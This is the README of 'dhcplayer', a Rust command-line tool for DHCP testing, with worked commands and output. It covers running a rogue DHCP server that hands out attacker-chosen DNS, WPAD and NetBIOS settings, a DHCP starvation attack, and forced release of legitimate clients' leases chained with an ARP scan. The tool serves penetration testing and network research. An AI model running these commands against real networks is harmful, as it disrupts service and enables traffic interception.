 # DHCPlayer

[![Crates.io](https://img.shields.io/crates/v/dhcplayer)](https://crates.io/crates/dhcplayer)
[![Language Rust](https://img.shields.io/badge/Language-Rust-blue)](https://www.rust-lang.org/)


dhcplayer is a tool to perform several actions using the DHCP protocol, both as client or server. It allows you to perform simple DHCP requests but also perform some known attacks like DHCP starvation or setting a sogue DHCP server.


In order to run dhcplayer, you need `root` privileges to be able to create raw sockets.


## Installation

To install:
```
$ cargo install dhcplayer
```

## DHCP Server

You can create a DHCP server with the `server` command. In the server you can use the parameters to configure the following options:

- Available IP Range
- Broadcast Address
- Network Mask
- Router/Gateway IP (by default your IP)
- DNS server IP(s) (by default your IP)
- WPAD file (disabled by default)
- NetBIOS/WINS name server (disabled by default)

```bash
$ sudo dhcplayer server -I eth0 -v --dns 192.168.122.5 --wpad http://wpadserver.local/wpad.dat --netbios 192.168.122.4 --start-ip 192.168.122.60 --end-ip 192.168.122.70
INFO - IP pool: 192.168.122.61-192.168.122.69
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.122.70
INFO - DHCP: 192.168.122.81
INFO - DNS: [192.168.122.5]
INFO - Router: [192.168.122.81]
INFO - Netbios: [192.168.122.4]
INFO - WPAD: http://wpadserver.local/wpad.dat
INFO - DISCOVER from 52:54:00:97:9a:b7
INFO - Offer 192.168.122.69
INFO - REQUEST from 52:54:00:97:9a:b7
INFO - Requested IP 192.168.122.69
INFO - ACK to 192.168.122.69 for 52:54:00:97:9a:b7

```

## Starvation Attack

You can launch a DHCP Starvation attack against DHCP servers by using the `starv` command.

The `starv` command will request all the available IP addresses offered by the DHCP servers in the network. If you want to just target specific servers, you can use the `servers` parameter.

```bash
$ sudo dhcplayer starv -I eth0 --server 192.168.122.1
192.168.122.80 90:25:4f:b0:51:04
192.168.122.118 eb:a3:fd:f4:26:d5
192.168.122.134 c6:f3:bd:ae:d9:ae
...
```

To stop the attack you need to press Ctrl-C. When the attack is stopped, by default, all the acquired IPs will be released. In case you don't want to release them, you can use the `-n/--no-release` flag.


## Discover

The discover command allows you to discover an request the IPs available from a DHCP server.

In the most basic use the command will request an IP from any DHCP server. If you want to request an specific server, you can use the `server` parameter.

```bash
$ sudo dhcplayer discover -I eth0
ACK received from 192.168.122.81
Acquired IP: 192.168.122.67
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.81
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.70
[3] Router: 192.168.122.81
[6] Domain Server: 192.168.122.5

```

### Discover DHCP servers

Moreover, you can send DISCOVER messages without requesting the IP addresses. You can do this with the `-n/--no-request` flag. In that case, dhcplayer will listen for all the offers made by all the DHCP servers, if there are more than one in the network. 

It can be useful to specify `--options all` to request all the information from a DHCP server.

```bash
$ sudo dhcplayer discover -I eth0 -n --options all

OFFER received from 192.168.122.1
Offered IP: 192.168.122.82
Client MAC: 52:54:00:97:9a:b7
DHCP Server: 192.168.122.1
Options:
[54] DHCP Server ID: 192.168.122.1
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[3] Router: 192.168.122.1
[6] Domain Server: 192.168.122.1

```

### DNS Dynamic Update

You can ask the DHCP server to create a new DNS A record with the flag `--dns-update` based on the hostname (`-H/--hostname`) or the FQDN (Fully Qualified Domain Name) (`--fqdn`). If you don't specify hostname nor FQDN, the DNS record will be deleted.

The server should return the `server-update` flag in Client FQDN (81) if the update was successful.

```bash
$ sudo dhcplayer discover -I eth2 --dns-update -H test
ACK received from 0.0.0.0
Acquired IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
Options:
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[1] Subnet Mask: 255.255.255.0
[81] Client FQDN: flags: 0x1 (server-update) A-result: 255 PTR-result: 0 
[3] Router: 192.168.100.2
[15] Domain Name: contoso.local
[6] Domain Server: 192.168.100.2

$ nslookup test.contoso.local 192.168.100.2
Server:		192.168.100.2
Address:	192.168.100.2#53

Name:	test.contoso.local
Address: 192.168.100.3

$ sudo dhcplayer discover -I eth2 --dns-update
ACK received from 0.0.0.0
Acquired IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
Options:
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[1] Subnet Mask: 255.255.255.0
[81] Client FQDN: flags: 0x1 (server-update) A-result: 255 PTR-result: 0 
[3] Router: 192.168.100.2
[15] Domain Name: contoso.local
[6] Domain Server: 192.168.100.2

$ nslookup test.contoso.local 192.168.100.2
Server:		192.168.100.2
Address:	192.168.100.2#53

** server can't find test.contoso.local: NXDOMAIN
```

### Inform

Additionally, you can send an INFORM petition instead of DISCOVER by using the `-i/--inform` flag of the `discover` command.

```bash
$ sudo dhcplayer discover -I eth0 -i --options wpad,dns --server 192.168.122.1 -v
INFO - INFORM sent - Client MAC 52:54:00:97:9a:b7

ACK received from 192.168.122.1
Acquired IP: 0.0.0.0
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.1
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[6] Domain Server: 192.168.122.1

```

## Release

You can use the release `command` to release IPs that were acquired by you or other peer. For this you need to specify the IP and the MAC address of the client you want to release.

You can specify the pairs IP/MAC with the format `<ip>-<mac>`. You can indicate the pairs in the command line, or pass them through a file or stdin.

```bash
$ sudo dhcplayer release -I eth2 --server 192.168.100.2 192.168.100.5-ca:2b:d1:21:17:86 192.168.100.7-fe:38:4e:46:95:d6 -v
INFO - RELEASE 192.168.100.5 ca:2b:d1:21:17:86
INFO - RELEASE 192.168.100.7 fe:38:4e:46:95:d6
```


You can also combine this command with an ARP scan to release the IPs of legit clients. The release clients probably continue using its IPs, but those are free to be assigned to other peer, which may cause some problems in the network.

```
$ sudo arplayer scan -I eth2 -w 10 | sudo dhcplayer release -I eth2 --server 192.168.100.2 -v
INFO - RELEASE 192.168.100.1 52:54:00:5b:49:5d
INFO - RELEASE 192.168.100.2 52:54:00:0b:75:57
INFO - RELEASE 192.168.100.7 52:54:00:a4:8c:f2
INFO - RELEASE 192.168.100.5 52:54:00:76:87:bb
```



## Disclaimer

Please, don't use this tool for bad things. I won't assume any responsibility for your actions with this tool.
